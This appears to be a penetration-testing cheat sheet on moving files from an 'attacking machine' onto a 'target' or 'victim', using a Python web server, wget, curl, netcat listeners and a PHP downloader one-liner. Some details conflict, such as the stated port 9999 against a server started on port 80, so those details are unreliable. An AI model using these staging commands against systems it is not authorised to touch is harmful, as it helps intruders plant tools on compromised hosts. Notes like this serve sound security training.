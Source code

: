 ```yaml
---
title: Transfer Files
description: Techinque
---
```

## Table of Contents

- [Transfer Files on Linux](#transfer-files-on-linux)
  - [Set Up a Simple Python Webserver](#set-up-a-simple-python-webserver)
  - [Wget](#wget)
  - [Curl](#curl)
  - [Netcat](#netcat)
  - [With php](#with-php)


### Transfer Files on Linux

### Set Up a Simple Python Webserver

For the examples using `curl`  and `wget` we need to download from a web-server. This is an easy way to set up a web-server. This command will make the entire folder, from where you issue the command, available on port 9999.

```
python3 -m http.server 80
```

### Wget

You can download files using `wget` like this:

```
wget 192.168.1.102:9999/file.txt
```

### Curl

```
curl -O http://192.168.0.101/file.txt
```

### Netcat

Another easy way to transfer files is by using netcat.

If you can't have an interactive shell it might be risky to start listening on a port, since it could be that the attacking-machine is unable to connect. So you are left hanging and can't do `ctr-c` because that will kill your session.

So instead you can connect from the target machine like this.

On attacking machine:

```bash
nc -lvp 4444 < file
```

On target machine:

```bash
nc 192.168.1.102 4444 > file
```

You can of course also do it the risky way, the other way around:

So on the victim-machine we run `nc` like this:

```bash
nc -lvp 3333 > enum.sh
```

And on the attacking machine we send the file like this:

```bash
nc 192.168.1.103 < enum.sh
```

I have sometimes received this error:

```
This is nc from the netcat-openbsd package. An alternative nc is available
```

I have just run this command instead:

```
nc -l 1234 > file.sh
```


### With php

```
echo "<?php file_put_contents('nameOfFile', fopen('http://192.168.1.102/file', 'r')); ?>" > down2.php
```

